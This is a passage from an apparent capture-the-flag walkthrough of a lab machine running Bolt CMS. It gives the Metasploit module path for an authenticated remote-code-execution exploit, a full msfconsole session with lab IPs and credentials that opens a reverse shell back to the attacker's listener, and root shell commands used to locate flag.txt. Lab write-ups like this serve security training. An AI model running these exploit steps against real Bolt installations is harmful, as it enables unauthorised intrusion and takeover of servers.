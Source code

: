 Answer: `48296`

# #6

**Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)**
**Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `apt update` then `apt install metasploit-framework`**

Answer: `exploit/unix/webapp/bolt_authenticated_rce`

# #7

**Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit**

~~~
$ msfconsole -q
msf> use exploit/unix/webapp/bolt_authenticated_rce
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set rhost 10.10.13.119 
rhost => 10.10.13.119
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set username bolt
username => bolt
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set password boltadmin123
password => boltadmin123
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(unix/webapp/bolt_authenticated_rce) > exploit 

[*] Started reverse TCP handler on 10.8.50.72:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "mpizfg".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file voagtvfn.php.
[+] Used token ea38f97e6971032c9ecad6346a to create xfdhvqmbfjo.php.
[*] Attempting to execute the payload via "/files/xfdhvqmbfjo.php?mpizfg=`payload`"
[*] Command shell session 1 opened (10.8.50.72:4444 -> 10.10.13.119:43148) at 2020-08-22 22:45:11 +0200
[!] No response, may have executed a blocking payload!
[+] Deleted file xfdhvqmbfjo.php.
[+] Reverted user profile back to original state.
~~~

# #8

**Look for flag.txt inside the machine.**

~~~
SHELL=/bin/bash script -q /dev/null
root@bolt:~/public/files# whoami
whoami
root
root@bolt:~/public/files# cd /home
cd /home
root@bolt:/home# ls -la
ls -la
total 288
drwxr-xr-x  3 root root   4096 Jul 18 19:36 .
drwxr-xr-x 27 root root   4096 Jul 18 19:30 ..
drwxr-xr-x 10 bolt bolt   4096 Jul 18 20:51 bolt
-rw-r--r--  1 root root 277509 Jul 18 19:36 composer-setup.php
-rw-r--r--  1 root root     34 Jul 18 19:33 flag.txt
root@bolt:/home# cat flag.txt	
~~~